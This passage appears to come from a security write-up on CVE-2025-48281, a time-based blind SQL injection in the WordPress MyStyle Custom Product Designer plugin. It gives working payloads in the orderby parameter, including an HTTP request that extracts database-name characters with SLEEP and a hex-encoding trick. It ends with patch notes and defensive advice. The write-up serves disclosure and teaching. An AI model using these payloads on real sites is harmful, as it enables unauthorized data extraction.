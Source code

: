 👉 Based on the response time => the payload is effective.

> In this case, do not append a comment after `SLEEP`. Because the developer has an Enter/newline that moves **OFFSET** to the next line; if you comment it out, the SQL parser may return an error.

![debug](debug.png "Debug SQL Error")

The chain will be split into two queries on different lines causing an error:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25               
OFFSET 0
```

### Get First Letter of Database Name

A prerequisite for dumping data is being able to extract a single character of the database name — if you can get one character, you can typically dump the rest.

Send a request with an SQLi payload:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

This uses `SUBSTRING()` to get the first character of the **database name**, and `IF()` returns `SLEEP(5)` if that character equals `0x77` ('w').

Hex encoding `w` as `0x77` is used because `orderby` comes from a **GET** parameter that may be escaped by WordPress magic quotes.

👉 Based on the response time => the first character is `w`.

## Conclusion

The **CVE-2025-48281** vulnerability in the WordPress **MyStyle Custom Product Designer** plugin prior to version **3.21.2** stems from directly inserting user-controlled input into SQL without sufficient validation, leading to SQL Injection.

The official patch implements a whitelist which ensures the input is validated and safer.

**Key takeaways**:

* Strictly validate user input.
* Always use `$wpdb->prepare()` when working with the database in WordPress to avoid SQL Injection.
* Regularly update plugins and perform security checks to avoid becoming a target.
